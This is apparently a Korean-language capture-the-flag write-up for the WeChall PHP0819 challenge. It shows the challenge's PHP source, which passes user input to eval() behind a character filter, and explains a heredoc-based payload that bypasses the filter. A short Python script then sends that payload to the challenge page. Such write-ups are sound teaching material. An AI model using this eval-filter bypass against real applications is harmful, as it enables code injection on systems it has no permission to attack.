 ================================================================================================================
[wechall] PHP8019
================================================================================================================

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4 -> step6 -> step8;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5 -> step7 -> step9;
        }
        step0 -> step1[label="",arrowhead="normal"];
        step3 -> step2[label="@solve",arrowhead="normal"];
    }

|

Source Analysis
================================================================================================================


.. code-block:: php

    <?php
    // closure, because of namespace!
    $challenge = function()
    {
        $f = Common::getGetString('eval');
        $f = str_replace(array('`', '$', '*', '#', ':', '\\', '"', "'", '(', ')', '.', '>'), '', $f);

        if((strlen($f) > 13) || (false !== stripos($f, 'return')))
        {
            die('sorry, not allowed!');
        }

        try
        {
            eval("\$spaceone = $f");
        }
        catch (Exception $e)
        {
            return false;
        }

        return ($spaceone === '1337');
    };
    ?>


|


solve
================================================================================================================

- spaceone이 1337 문자열일 경우 풀리는 문제인데, eval=1337로 입력할 경우 int값으로 입력되어 에러가 출력됩니다.
- heredoc 구문을 이용하여 해결할 수 있습니다. "<<<"

http://zetawiki.com/wiki/PHP_%ED%9E%88%EC%96%B4%EB%8B%A5_heredoc


.. code-block:: php

    <<<a
    1337
    a;


.. code-blcok:: python


    import requests


    url = "http://www.wechall.net/challenge/space/php0819/index.php"
    
    params = {
        "eval": "%3C%3C%3Ca%0a1337%0aa;%0a"
    }

    r = requests.get(url, params=params, verify=False)
    print r.content
